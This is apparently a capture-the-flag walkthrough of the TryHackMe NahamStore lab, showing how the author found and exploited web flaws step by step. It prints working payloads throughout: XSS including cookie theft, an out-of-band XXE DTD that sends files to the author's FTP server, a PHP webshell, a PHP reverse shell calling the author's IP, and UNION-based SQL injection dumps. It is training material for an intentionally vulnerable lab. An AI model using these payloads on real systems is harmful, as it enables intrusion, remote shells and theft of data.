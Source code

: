 # 77 - NahamStore

Room Link --> [https://tryhackme.com/room/nahamstore](https://tryhackme.com/room/nahamstore)

When enumerating subdomains you should perform it against the `nahamstore.thm`  domain.

### Enumeration

{% code overflow="wrap" %}
```bash
nmap -Pn -n -vv 10.10.176.114 -p- -T4 -sV

PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack
80/tcp   open  http    syn-ack nginx 1.14.0 (Ubuntu)
8000/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
```
{% endcode %}

### Sub-Domain Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://nahamstore.thm -H "Host: FUZZ.nahamstore.thm" -fw 125

www
shop
marketing
stock
```
{% endcode %}

#### Gobuster dir enum (port 80)

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,db,sql,bak -b 404,403

/search
/login
/register
/uploads
/staff
/css
/js
/returns
/logout
/basket
```
{% endcode %}

`stock.nahamstore.thm` .

THere is an endpoint here `/product` .

<figure><img src=".gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

`marketing.nahamstore.thm` .

<figure><img src=".gitbook/assets/image (515).png" alt=""><figcaption></figcaption></figure>

## Task 4 - XSS

{% code overflow="wrap" lineNumbers="true" %}
```bash
# dir enum for marketing.nahamstore.thm
gobuster dir -u http://marketing.nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,db,sql,bak,zip -b 404,403 --no-error -t 200 -ic
```
{% endcode %}

<figure><img src=".gitbook/assets/image (517).png" alt=""><figcaption></figcaption></figure>

So i tried the `error` parameter and found the XSS endopoint.

[http://marketing.nahamstore.thm/?error=\<script>alert("XSS")\</script](http://marketing.nahamstore.thm/?error=%3Cscript%3Ealert\(%22XSS%22\)%3C/script%3E)>

<figure><img src=".gitbook/assets/image (516).png" alt=""><figcaption></figcaption></figure>

### Stored XSS

_First Let us add the product to the basket._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*vzP2Ek1DLPk427nvzVP_9w.png" alt="" height="272" width="700"><figcaption><p><em><strong>Click the add to basket</strong></em></p></figcaption></figure>

_Now click the **item**:_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*o-mk-PruWW-Lp3cmyx8vzg.png" alt="" height="264" width="700"><figcaption><p><em><strong>Click the item</strong></em></p></figcaption></figure>

_On the item page if you did not add any address add it by clicking the **green color button**. As I have added an address so I am directly clicking the **blue button**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*0ER9c5egRjrc9W5cCfvc0g.png" alt="" height="269" width="700"><figcaption><p><em><strong>The item page</strong></em></p></figcaption></figure>

_After clicking the blue button. I have gone to the **/basket** page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*_op1_okBPbqb8CmwizhhsQ.png" alt="" height="303" width="700"><figcaption><p><em><strong>The basket page</strong></em></p></figcaption></figure>

Add credit card details and make payment: `1234123412341234` .

We can see our `User-Agent` info there.

<figure><img src=".gitbook/assets/image (518).png" alt=""><figcaption></figcaption></figure>

Putting an XSS payload in the `User-Agent` field works.

Use burpsuite to intercept the request, then change the "User-Agent" field to an XSS payload.

<figure><img src=".gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

And it worked.

<figure><img src=".gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

### HTML Tag Escape <a href="#html-tag-escape" id="html-tag-escape"></a>

_Let us enter a product. I have chosen the second one. I have add it to the **basket** and then went to the item page. After that, I clicked on the item and came to the below page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*XoMEByX85TSjBvEXz7Rouw.png" alt="" height="307" width="700"><figcaption></figcaption></figure>

_We see the URL: **http://nahamstore.thm/product?id=1\&name=Hoodie+++Tee**_

_Now let's try to change the data of the **name** parameter and put a random string. I have written name=abc. Command: **http://nahamstore.thm/product?id=1\&name=dking**_

<figure><img src=".gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

_Here we can see that we have changed the data of the **name** parameter but **nothing change occurs on the page**. So let us visit the **view page source**._

<figure><img src=".gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>

We can escape from the `<title>` tag and run our payload. Intercept with burpsuite.

`http://nahamstore.thm/product?id=1&name=</title><script>alert("HTML Escape")</script>` .

<figure><img src=".gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>

### JS Variable Escape

In the main page, search for a product "love"

<figure><img src=".gitbook/assets/image (524).png" alt=""><figcaption></figcaption></figure>

We can see the search term `love` appeared in a Javascript script. We can escape the `search` variable and get XSS using this payload.

`love';alert("JS Escape"); //` .

And we got XSS

<figure><img src=".gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

### Hidden Parameter

Hidden parameter in Homepage is `q` .

<figure><img src=".gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

### HTML Tag Escape

In the `return` page there is a `<textarea>` tag that we can escape to get XSS.

<figure><img src=".gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (528).png" alt=""><figcaption></figcaption></figure>

Using this payload we get another XSS

`Large size </textarea><script>alert("RETURN Escape")</script>` .

<figure><img src=".gitbook/assets/image (529).png" alt=""><figcaption></figcaption></figure>

### Non-existing Endpoint

_Let us visit any URL which is not on the website. For example **http://nahamstore.thm/product**_

_The **URL** redirected us to the below page._

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Doing this gives us XSS

[http://nahamstore.thm/\<script>alert(123)\</script](http://nahamstore.thm/%3Cscript%3Ealert\(123\)%3C/script%3E)>

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Hidden Param

_Visit one of the product pages:_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*P3k4xVczxY4o5AYDtG5Nvg.png" alt="" height="309" width="700"><figcaption><p><strong>The page</strong></p></figcaption></figure>

_Just write something in the **discount** box and press the **Add to Basket** button._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*EZs1FwNsYR__3hj2i8x2lw.png" alt="" height="192" width="700"><figcaption><p><strong>After writing in the discount box</strong></p></figcaption></figure>

_See that you cannot see anything in the **discount** box whatever you wrote._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*c5GQg_xz36KXcYkqPVFYyg.png" alt="" height="287" width="700"><figcaption><p><strong>Nothing is shown</strong></p></figcaption></figure>

_Let us go to the **page source** and see nothing is written in the **value**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*9I19LB4msMUTOeIrJWkRFg.png" alt="" height="289" width="700"><figcaption><p><strong>The view source</strong></p></figcaption></figure>

_Nothing is written in the **value** parameter._

_Let us make a little bit of a change in the URL. let us make the **discount** variable **GET** method instead of the **POST** method. Command: **http://nahamstore.thm/product?id=1\&added=1\&discount=12345**_

_After the change see that the web page is showing the input of the **discount** you gave._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*8cYl51h30nXYYiGgeF6fLg.png" alt="" height="284" width="700"><figcaption><p><strong>The discount value is showing</strong></p></figcaption></figure>

_Let us go to the **page source** and see the value written in the **value parameter** of the **discount** box._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*ycAz2e1cD7uq3fQOd1hYkw.png" alt="" height="284" width="700"><figcaption><p><strong>The design code</strong></p></figcaption></figure>

_Now run the payload and let us make some changes in the design. Command : **http://nahamstore.thm/product?id=1\&added=1\&discount=12345" onmouseover=alert(document.cookie);//”**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*DAyBY7JVZ3eSHV3AMosaeQ.png" alt="" height="191" width="700"><figcaption><p><strong>The payload works</strong></p></figcaption></figure>

## Open Redirect

[https://pentester.land/blog/open-redirect-cheatsheet/#common-injection-points--parameters](https://pentester.land/blog/open-redirect-cheatsheet/#common-injection-points--parameters)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect)

### Parameter 1

Fuzzing using ffuf:

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u 'http://nahamstore.thm/?FUZZ=http://10.18.88.214' -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fs 4254

r
```
{% endcode %}

[http://nahamstore.thm/?r=http://10.18.88.214](http://nahamstore.thm/?r=http://10.18.88.214)

[http://nahamstore.thm/?r=https://google.com](http://nahamstore.thm/?r=https://google.com)

We get redirected to my local web server. Workw with "google.com" too.

### Parameter 2

_Let us recon on the URL: **http://nahamstore.thm/account/**_

_Command: **dirsearch -u http://nahamstore.thm/account/ -w /usr/share/wordlists/dirBuster\_list/directory-list-2.3-medium.txt**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*3WAfeVXR6Tq0wF3DdYILyA.png" alt="" height="217" width="700"><figcaption><p><strong>The recon</strong></p></figcaption></figure>

_This recon redirects us to and URL: **/login?redirect\_url=**_

_Let us visit the URL: **http://nahamstore.thm/login?redirect\_url=**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*m_cs_qHSgIdoVsig82nTLg.png" alt="" height="308" width="700"><figcaption><p><strong>The login page</strong></p></figcaption></figure>

_Now let us log in to the account of our own. But before that let us do this to the URL: **http://nahamstore.thm/login?redirect\_url=https://google.com** and then press the **login** with providing **email and password**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*qYqb2I2OVugL2vmhCEAMNg.png" alt="" height="306" width="700"><figcaption><p><strong>On the login page</strong></p></figcaption></figure>

_Let us log in. During login, it **redirected** me to the **Google website**. :_

<figure><img src="https://miro.medium.com/v2/1*0o8ncwhSLSyF06_PXV3Mzw.png" alt="" width="700"><figcaption><p><strong>The redirected website</strong></p></figcaption></figure>

Answer is --> `redirect_url` .

## CSRF

_Let us go to **Accounts->Settings.**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*zrtnNj4I2fasbOVgIyKOgA.png" alt="" height="275" width="700"><figcaption><p><strong>The setting page.</strong></p></figcaption></figure>

_Let us start **intercept on** the button of the **burp suite**._

_Now, let us visit the **Change Email** option and catch its traffic._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*IUvKIAt4pYPdmzilVjt61Q.png" alt="" height="306" width="700"><figcaption><p><strong>The traffic of change email.</strong></p></figcaption></figure>

_Let us forward the **traffic** and see where it goes. It took us to the **/settings/email** page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Q0EVPlABf8YTBuagPxYiKA.png" alt="" height="302" width="700"><figcaption><p><strong>The setting page</strong></p></figcaption></figure>

_Now click the **Change Email** and catch its traffic in the **burp suite**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*3epWpO6152U3MhO0hgHjYA.png" alt="" height="311" width="700"><figcaption><p><strong>The traffic of the /settings/email</strong></p></figcaption></figure>

_So this page is not the answer._

_Let us visit the second option **Change Password**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*YQvUECp7up4ZBgYDDq4Xdg.png" alt="" height="285" width="700"><figcaption><p><strong>The /settings/password page</strong></p></figcaption></figure>

_Let us click the **Change Password** option and catch its traffic in the **burp suite** and see it._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*XJOIEWDHr3c_2hDPuLVahg.png" alt="" height="313" width="700"><figcaption><p><strong>There is no csrf token</strong></p></figcaption></figure>

_So this URL is the answer._ [_http://nahamstore.thm/account/settings/password_](http://nahamstore.thm/account/settings/password)

_**What field can be removed to defeat the CSRF protection**_

On the [email change page](http://nahamstore.thm/account/settings/email) there is a CSRF protection (hidden input field with an anti-CSRF token).

```html
<form method="post">
    <input type="hidden" name="csrf_protect" value="eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpNeE1EUXdNREkySW4wPSIsInNpZ25hdHVyZSI6IjQyZWY1OWJlNTM2YTcxOTU5ZDQ0OGJmODc1N2Q1NDZhIn0=">
    <div><label>Email:</label></div>
    <div><input class="form-control" name="change_email" value="noraj@noraj.fr" ></div>
    <div style="margin-top:7px">
        <input type="submit" class="btn btn-success pull-right" value="Change Email"></div>
</form>
```

<figure><img src=".gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

Providing a wrong value will fail but removing the parameter will bypass the protection.

_Answer: **csrf\_protect**_

<figure><img src=".gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>

It is encoded in `base64` .

## IDOR

_First, let us add something to the **Shopping basket** And then **add an address**._

On Burp Intercept, then click on the Address you just added.

<figure><img src=".gitbook/assets/image (497).png" alt=""><figcaption></figcaption></figure>

So just edit the `address_id` parameter to any number and you dump address details of other users.

<figure><img src=".gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>

To exploit the second IDOR, you need to:

1. place and complete an order
2. go to the order page and select it
3. click on the `PDF Receipt` button

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*VXiMooDsTUYjUu2XoGf2zw.png" alt="" height="307" width="700"><figcaption><p><strong>The /account/orders/9 page</strong></p></figcaption></figure>

_Now let us on the **burp suite** and on the button **intercept on**._

_Now let us press the button **PDF Recept** and catch the **live traffic** of the page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*xW-tgXPo-7q2Li82JlZAmA.png" alt="" height="308" width="700"><figcaption><p><strong>The order receipt traffic</strong></p></figcaption></figure>

_Now let us change the **id** parameter to **3** and **forward** it._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*xJPXIynUouRYKf9rRlOmaA.png" alt="" height="316" width="700"><figcaption><p><strong>The pdf page</strong></p></figcaption></figure>

_Here we see that the **order id** does not match the **user\_id.** So let us add the **user\_id** parameter in the traffic. Command: **what=order\&id=3\&user\_id=3**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*oXCjDf24AHjx5680Inq4EQ.png" alt="" height="312" width="700"><figcaption><p><strong>The pdf page</strong></p></figcaption></figure>

_It did not work. So let us use some other techniques. Command: **what=order\&id=3%26user\_id=3**_

The idea was to URL encode it `&` sign so that `3&user_id=3` becomes the value of `id`.

<figure><img src=".gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>

Answer --> Order Date: `22/02/2021 11:42:13` .

## LFI

Add an item to the basket.

Turn on burpsuite intruder, then Clilck the item:

<figure><img src=".gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

_Now let us click the **forward** button_.

_When the bellow request will be shown send it to the **repeater**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*UtVnskI6x3hwKI5YX1nTCg.png" alt="" height="310" width="700"><figcaption><p><strong>The request</strong></p></figcaption></figure>

`/....//....//....//....//....//lfi/flag.txt` - This payload worked

<figure><img src=".gitbook/assets/image (500).png" alt=""><figcaption></figcaption></figure>

## SSRF

There is a _Check stock_ button on the product page.

<figure><img src=".gitbook/assets/image (501).png" alt=""><figcaption></figcaption></figure>

Catch it in Burp Intercept and forward  to Repeater.

<figure><img src=".gitbook/assets/image (502).png" alt=""><figcaption></figcaption></figure>

The `server` parameter value seems to be a domain name.

But if we put another value, we have an error about the bad server name so we must keep `stock.nahamstore.thm` and still find a way to bypass it.

With `server=stock.nahamstore.thm@127.0.0.1` we have a 404 for page

<figure><img src=".gitbook/assets/image (503).png" alt=""><figcaption></figcaption></figure>

But with `server=stock.nahamstore.thm@127.0.0.1#` we are hitting the home page.

<figure><img src=".gitbook/assets/image (504).png" alt=""><figcaption></figcaption></figure>

Let's try to discover an internal sub-domain:

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u 'http://nahamstore.thm/stockcheck' -c -w /opt/SecLists/Discovery/DNS/dns-Jhaddix.txt -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#'

internal-api
```
{% endcode %}

We found one `internal-api.nahamstore.thm`

`server=stock.nahamstore.thm@internal-api.nahamstore.thm#` .

<figure><img src=".gitbook/assets/image (505).png" alt=""><figcaption></figcaption></figure>

We found an endpoint --> `/orders` .

```
{"server":"internal-api.nahamstore.com","endpoints":["\/orders"]}
```

Checking it out.

<figure><img src=".gitbook/assets/image (506).png" alt=""><figcaption></figcaption></figure>

```json
[
  {
    "id": "4dbc51716426d49f524e10d4437a5f5a",
    "endpoint": "\/orders\/4dbc51716426d49f524e10d4437a5f5a"
  },
  {
    "id": "5ae19241b4b55a360e677fdd9084c21c",
    "endpoint": "\/orders\/5ae19241b4b55a360e677fdd9084c21c"
  },
  {
    "id": "70ac2193c8049fcea7101884fd4ef58e",
    "endpoint": "\/orders\/70ac2193c8049fcea7101884fd4ef58e"
  }
]
```

We can check every order.

`server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/4dbc51716426d49f524e10d4437a5f5a#` .

<figure><img src=".gitbook/assets/image (507).png" alt=""><figcaption></figcaption></figure>

We are seeing full details for other users.&#x20;

Checking 2nd order id.

`server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#` .

<figure><img src=".gitbook/assets/image (508).png" alt=""><figcaption></figcaption></figure>

```json
{
  "id": "5ae19241b4b55a360e677fdd9084c21c",
  "customer": {
    "id": 2,
    "name": "Jimmy Jones",
    "email": "jd.jones1997@yahoo.com",
    "tel": "501-392-5473",
    "address": {
      "line_1": "3999  Clay Lick Road",
      "city": "Englewood",
      "state": "Colorado",
      "zipcode": "80112"
    },
    "items": [
      {
        "name": "Hoodie + Tee",
        "cost": "25.00"
      }
    ],
    "payment": {
      "type": "MasterCard",
      "number": "5190216301622131",
      "expires": "11\/2023",
      "CVV2": "223"
    }
  }
}
```

## XXE

_Let us visit the subdomain: **stock.nahamstore.thm**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*icpEcXSigmrC7mohvBHvEA.png" alt="" height="280" width="700"><figcaption><p><strong>The main page</strong></p></figcaption></figure>

_Let us visit the page **/product**. Command : **stock.nahamstore.thm/product**_

<figure><img src=".gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*My4ti-9W04d-cC97HlXiNQ.png" alt="" height="307" width="700"><figcaption><p><strong>In the burp repeater</strong></p></figcaption></figure>

_Let us change the request method from **GET** to **POST**._

<figure><img src=".gitbook/assets/image (510).png" alt=""><figcaption></figcaption></figure>

Now we FUZZ for allowed parameters on the Product, using `/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt` wordlist.

We see that the `xml` parameter returns.

<figure><img src=".gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>

_Now let us copy the **XML** code from the **response** and paste it into the **request**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Bym1Dx0kFCVdaPxq51-DXQ.png" alt="" height="309" width="700"><figcaption><p><strong>After pasting</strong></p></figcaption></figure>

_Now let us **send** the request again._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*PNwIxGBYBJ_yTP6ST0aSEA.png" alt="" height="310" width="700"><figcaption><p><strong>The request</strong></p></figcaption></figure>

_**X-Token** is not present._

The error suggest we did not provide `X-Token` even if we have the HTTP header present. It means in XML mode the HTTP header is ignored and must be expecting a XML value.

{% code overflow="wrap" %}
```xml
// Some code# send this as request
<?xml version="1.0"?>
	<data>
	<X-Token>
d31ng
</X-Token>
	</data>l
```
{% endcode %}

Outputs

<figure><img src=".gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

Since the value we provided is reflected, the first thing that come to mind is to perform an XXE attack.

We can read the /etc/passwd file with this payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
	<data>
	<X-Token>
&test;
</X-Token>
	</data>
```

<figure><img src=".gitbook/assets/image (513).png" alt=""><figcaption></figcaption></figure>

Reading the 1st flag with:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
	<data>
	<X-Token>
&test;
</X-Token>
	</data>
```

### Blind XXE / OOB XXE

There is a page that let us upload xlsx files: [http://nahamstore.thm/staff](http://nahamstore.thm/staff)

But what is an XLSX? Just a zip with XML files inside. So if value are extracted from it there is a chance for XXE.

We can consult PayloadsAllTheThings for [OOB](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#exploiting-blind-xxe-to-exfiltrate-data-out-of-band) & [XLSX](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file) payloads (OOB because the values are not reflected).

First I created a spreadsheet file with LibreOffice Calc (`xxe.xlsx`).

Let's extract the ZIP:

```bash
# extract the xxe.xlsx file into a dir XXE.
7z x -oXXE xxe.xlsx
```

<figure><img src=".gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>

I added the OOB XXE payload inside `xl/workbook.xml`.

{% code title="workbook.xml" %}
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://10.18.88.214:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlforma>

```
{% endcode %}

Let's rebuild the spreadsheet:

```bash
# updates the xxe.xlsx file.
7z u ../xxe.xlsx *
```

Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file. Instead we build the document once and then change the DTD. And using FTP instead of HTTP allows to retrieve much larger files.

{% code title="xxe.dtd" overflow="wrap" %}
```xml
<!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://10.9.19.77:2121/%d;'>"> 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>

All the files are set.

Start the FTP + HTTP server:

```bash
python3 -m http.server 8000
```

Download [xxeftp](https://github.com/staaldraad/xxeserv) you have to compile it with `GO` --> "go build xxeftp.go"

```bash
xxeftp  -o files.log -p 2121 -w -wd public -wp 8000
```

Upload the `xxe.xlsx` file.

<figure><img src=".gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>

Immediately our FTP and HTTP server should receive the `/flag.txt` file.

<figure><img src=".gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ cat files.log                                                                          
USER:  anonymous
PASS:  anonymous
//e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=
SIZE
MDTM
USER:  anonymous
PASS:  anonymous
SIZE
PASV
```
{% endcode %}

Decode the base64 --> `e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=`&#x20;

Outpur --> {d6b22cb3e37bef32d800105b11107d8f}

## RCE

### 1st RCE Flag / PHP webshell

Enumerating port 8000.

{% code overflow="wrap" %}
```
gobuster dir -u http://nahamstore.thm:8000 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 404,403 --no-error -t 200

admin
```
{% endcode %}

<figure><img src=".gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

[http://nahamstore.thm:8000/admin/login](http://nahamstore.thm:8000/admin/login)

We can login with `admin : admin`&#x20;

<figure><img src=".gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

This is  the same dashboard at [http://marketing.nahamstore.thm/](http://marketing.nahamstore.thm/)

Here the admin panel allows us to modify the templates of the page displayed at [http://marketing.nahamstore.thm/](http://marketing.nahamstore.thm/)

I replaced the description paragraph with a simple webshell:

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

Then it's easy to execute a command:&#x20;

[http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c/?cmd=id](http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c/?cmd=id)

<figure><img src=".gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (540).png" alt=""><figcaption></figcaption></figure>

### 2nd Flag / Blind RCE

We already found an IDOR in the `user_id` param of the PDF generator function (PDF Receipt) but there is also a RCE in the `id` one.

_In the **id** parameter we will use this payload :_&#x20;

{% code overflow="wrap" %}
```bash
$(php -r '$sock=fsockopen("10.18.88.214",9000);exec("/bin/sh -i <&3 >&3 2>&3");')
```
{% endcode %}

_We will encode it to the URL_

<figure><img src=".gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>

_Our payload request will be:_

{% code overflow="wrap" %}
```
what=order&id=4%24%28%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%31%38%2e%38%38%2e%32%31%34%22%2c%39%30%30%30%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27%29
```
{% endcode %}

Setup nc listener, use burpsuite intercept to intercept the traffic then modify the value of `id` and we get shell.

<figure><img src=".gitbook/assets/image (544).png" alt=""><figcaption></figcaption></figure>

From here we can read `/etc/hosts` and find some useful domains for the recon section.

{% code title="/etc/hosts" %}
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.4      2431fe29a4b0
127.0.0.1       nahamstore.thm
127.0.0.1       www.nahamstore.thm
172.17.0.1      stock.nahamstore.thm
172.17.0.1      marketing.nahamstore.thm
172.17.0.1      shop.nahamstore.thm
172.17.0.1      nahamstore-2020.nahamstore.thm
172.17.0.1      nahamstore-2020-dev.nahamstore.thm
10.131.104.72   internal-api.nahamstore.thm
```
{% endcode %}

## SQLI

### In-band

By entering an invalid ID for the product, I got an error message for MySQL out of it.

[http://nahamstore.thm/product?id=1'](http://nahamstore.thm/product?id=1%27)

<figure><img src=".gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

#### No of Columns

Playing around i see there are 5 columns there.

```sql
1099 UNION SELECT NULL,NULL,NULL,NULL,NULL-- -
```

#### DB Version

```sql
1099 UNION SELECT NULL,@@version,NULL,NULL,NULL-- -
```

<figure><img src=".gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>

#### DBs / Schemas

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(SCHEMA_NAME),NULL,NULL,NULL FROM information_schema.SCHEMATA-- -

# information_schema,nahamstore
```
{% endcode %}

#### Tables

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(table_name),NULL,NULL,NULL FROM information_schema.tables WHERE table_schema="nahamstore"-- -

# product,sqli_one
```
{% endcode %}

#### Columns

{% code overflow="wrap" %}
```sql
# columns for "sqli_one" table.
1099 UNION SELECT NULL,GROUP_CONCAT(column_name),NULL,NULL,NULL FROM information_schema.columns WHERE table_name="sqli_one"-- -

# flag,id
```
{% endcode %}

#### Dump Data

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(flag,id),NULL,NULL,NULL FROM nahamstore.sqli_one-- -

{d890234e20be48ff96a2f9caab0de55c}1
```
{% endcode %}

### Inferential SQLi <a href="#inferential-sqli" id="inferential-sqli"></a>

The second one is pretty hard to identify. It happens in the `/return` request:

The easiest way to exploit it will be to save the request to a file and pass it to sqlmap.

<figure><img src=".gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>

{% code title="req.txt" %}
```
POST /returns HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------86688607116737285133964723420
Content-Length: 419
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/returns
Cookie: token=da26c04730a46d6acdae6f7236802d6e; session=981b443ffdb368f8f31f9c4591fd020c
Upgrade-Insecure-Requests: 1

-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="order_number"

1
-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="return_reason"

2
-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="return_info"

Hell
-----------------------------86688607116737285133964723420--

```
{% endcode %}

